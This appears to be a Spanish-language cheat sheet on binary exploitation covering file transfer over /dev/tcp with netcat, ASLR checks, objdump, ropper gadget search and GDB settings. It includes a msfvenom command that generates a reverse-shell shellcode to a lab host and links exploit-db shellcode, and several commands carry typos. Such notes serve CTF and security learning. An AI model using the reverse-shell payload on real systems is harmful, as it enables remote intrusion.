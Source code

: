 # Explotación de binarios (by CUCUxii)

## Índice 
- [Que es un binario](#Inicio)





---------------------------------------------------------------------------
## ¿Que es un binario?

Un binario, es lo que resulta de compilar un código en lenguaje C o java. Este código se ha traducido a bytes, que equivalen a lenguaje máquina, instrucciones 
que van directamente al procesador sin un intermediario (como puede ser con lenguajes interpretados como Python) Por tanto si intentas abrir un binario con 
nano o vim te encontrarás algunas cadenas legibles entre un lío de "@" y "." 
   - Como ya hemos dicho, son todo bytes, asi que si hay un "x41" lo traducirá a ascii como una "A", pero si hay un byte que no tenga dicho traduccion a ascii, 
   nano los escribirá como  estos "@" y ".".
   
Aunque ya hayamos perdido la capacidad de leer el código del binario (si no tenemos su codigo.c sin compilar claro), esas insutrcciones al procesador de las que
habíamos habaldo antes si que son legibles como código de **Ensamblador** o lenguaje de bajo nivel. El ensamblador es más abstracto que un código Python, 
y si lo ves por primera vez, puede asustar un poco. Pero al final se trata de insutrcciones muy simples (que pasaré a explicar en otro post)

---------------------------------------------------------------------------

## Compartir el binario

```console
[10.10.20.20]~$: cat < ./binario > /dev/tcp 10.10.10.10/443; md5sum bianrio 
348235923523958  /opt/bianrio
[cucuxii@parrot]~$: nc -nlvp 443 > binario; md5sum bianrio 
348235923523958  /opt/bianrio  # Ver si coinciden (que no se haya modificado el binario por el camino)
``` 

---------------------------------------------------------------------------

## Conocer el binario

   ### Protecciones:
   Los binarios cuentan con varios tipos de protecciones disponibles, conocer estas es ideal para saber que tipo de ataque podríamos probar
   
```console
[cucuxii@parrot]~$: for i in $(seq 1 20); do ldd ./binario | grep libc | awk 'NF{print NF}' | tr-d '()'; done
# Ver si cambian las direcciones de memoria
``` 
 
 
---------------------------------------------------------------------------

## Objdump

- **Ver la direccion de las funciones**
```console
[cucuxii@parrot]~$: objdump -D ./bianrio | grep "printf"
00000000118b <printf@plt>:    # La direccion de printf (llamada a plt) en el bianrio es 118b
```
- **Ver todas las funciones**
```console
[cucuxii@parrot]~$: objdump -t ./bianrio | grep "text"  # Filtramos por la seccion text que es el codigo ensamblador
000000001172 g F .text     filecount    # La direccion de la funcion "filecount" es 1172
#####  Lo mismo con el resto de funciones
```

---------------------------------------------------------------------------

## Radare2

---------------------------------------------------------------------------

## Ropper

Ropper encuentra los gadgets para programacion "ROP", corre el bianrio una vez para cargar datos en memoria y enontrar las instrucciones.
```pip install ropper```
```console
[cucuxii@parrot]~$: ropper --search "pop rdi" -f ./binario
0x5555558cb: pop rdi, ret
```
---------------------------------------------------------------------------

## GDB

- gef
Evitar que cree un fork -> set-detach-on-fork off     set follow-fork-mode child


---------------------------------------------------------------------------

## Shellcodes

 - Msfvenom -> ``` msfvenom -p linux/x86/shell_Reverse_tcp LHOST=10.10.10.10 LPORT=443 -b "\x00\x0a" -f python```

 - Exploit database 
pila demasaido pequeña -> [reuseaddr](https://www.exploit-db.com/shellcodes/47530)




